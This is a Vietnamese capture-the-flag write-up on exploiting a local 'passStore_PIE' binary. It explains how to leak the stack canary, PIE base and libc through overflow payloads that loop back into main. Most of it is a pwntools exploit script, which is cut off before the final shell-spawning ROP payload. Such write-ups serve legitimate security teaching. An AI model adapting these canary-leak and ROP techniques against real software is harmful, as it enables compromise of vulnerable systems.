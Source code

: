 Thêm nữa thì stack **0d:0068** khá là đẹp với **main** tuy nhiên để đến đc đó cần tới ***104 bytes***, mà chúng ta cần phải nhớ là payload2 để ret về **main+53** để tạo vòng lặp cho việc exploit thì chỉ có ***72 bytes***. do đó để tránh lỗi thì ta sẽ chọn stack **09:0048**, tức là leak đc **main+58**, chỉ việc trừ ***58*** đi là có được main addr

Sau khi có được *main_addr* thì ta trừ đi *offset của main func* sẽ được pie_base, có pie_base thì sẽ tính được addr của các gadget  như **ret, pop rdi** cần thiết cho việc lấy shell.

Sau khi đã xong việc leak pie với payload3. Thì **payload4 = payload2** để 1 lần nữa call lại **main+53** tức là gọi **passStore()** 

Tiếp tục leak libc với ***payload5 = 248 bytes***

payload6 sẽ giống chall trước đó, chỉ khác 1 chỗ là, ta cần tính addr của các gadget dựa vào pie_base. rồi lấy shell như trc.

### exploit code

```python
from pwn import *

binary = ELF('./passStore_PIE')
libc = ELF("/usr/lib/x86_64-linux-gnu/libc.so.6")
rop = ROP(binary)
r = process(binary.path)
#gdb.attach(r , api=True)

#Leak canary
payload1 = b"a"*56
r.sendlineafter(b"Type the password: ",payload1)
r.recvline()

canary = b"\x00"  +  r.recv(7).split(b"\n")[0] 
canary += b"\x00"*(8 - len(canary))
log.info("Leaked canary: " + str(hex(u64(canary))))

#Call back main+53 <=> passStore()
payload2 = b"a"*56 + p64(u64(canary)) + b"a"*8 + p8(0x8d)
r.sendafter(b"Retype: ",payload2)

#leak main+58 to calc pie_base
payload3 = b"a"*72
r.sendafter(b"Type the password:",payload3)

res = r.recvline().split(b"a"*72)[1] 
res = res.split(b"\n")[0]
res += b"\x00"*(8 - len(res))

main_addr_pie = u64(res) - 0x3a #58
log.info("Main addr (pie) leak : " + hex(main_addr_pie)) 
main_offset_pie = binary.symbols['main']
pie_base = main_addr_pie - main_offset_pie
log.info("Main offset pie : " + hex(main_offset_pie)) 
log.info("Pie base addr : " + hex(pie_base)) 

#call back main+53 <=> passStore()
payload4 = b"a"*56 + p64(u64(canary)) + b"a"*8 + p8(0x8d)
r.sendafter(b"Retype: ",payload4)

#leak and calc libc
payload5 = b"a"*248
r.sendlineafter(b"Type the password:",payload5)
r.recvline()

res = r.recv().split(b"\nRetype")[0] 
res += b"\x00"*(8 - len(res))
```